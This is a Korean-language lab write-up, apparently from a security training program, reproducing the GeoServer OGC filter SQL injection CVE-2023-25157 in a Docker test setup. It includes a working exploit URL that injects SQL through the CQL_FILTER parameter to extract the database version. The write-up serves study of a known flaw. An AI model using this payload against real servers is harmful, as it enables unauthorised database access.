



# GeoServer OGC Filter SQL Injection (CVE-2023-25157)

> 화이트햇 스쿨 3기(35반) -  [손예은](https://github.com/ye-nni/)
</br>

### 요약
- GeoServer는 Java로 작성된 오픈 소스 소프트웨어 서버로, 지리공간 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공합니다.
- GeoServer는 지리정보시스템(GIS) 데이터베이스, 웹 기반 데이터, 개인 데이터세트 등 다양한 소스의 지리공간 데이터를 배포하는 유연하고 효율적인 솔루션으로 설계되었습니다.
- 2.22.1 및 2.21.4 이전 버전에서는 OGC(Open Geospatial Consortium) 표준에서 정의한 필터 및 함수 표현식에서 SQL Injection 문제가 발견되었습니다.

References:
- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>
</br>

### 환경 구성 및 실행
다음 명령어로 테스트 환경에서 GeoServer instance 2.22.1을 실행합니다:
```
docker compose up -d
```
서버가 시작되면 `http://your-ip:8080/geoserver`에서 기본 페이지를 볼 수 있습니다.

</br>

### 테스트
취약점을 익스플로잇하기 전에 먼저 PostGIS 데이터 저장소가 포함된 워크스페이스를 찾아야 합니다. Vulhub의 GeoServer 인스턴스에는 이미 PostGIS 데이터 저장소가 있습니다:
- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

아래 간단한 URL을 통해 서버를 익스플로잇 할 수 있습니다:
```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```
</br>

### 결과
 



위 사진을 통해 PostgreSQL 버전은 SQL Injection을 통해 GeoServer에서 검색(retrieve)된 것을 알 수 있습니다.
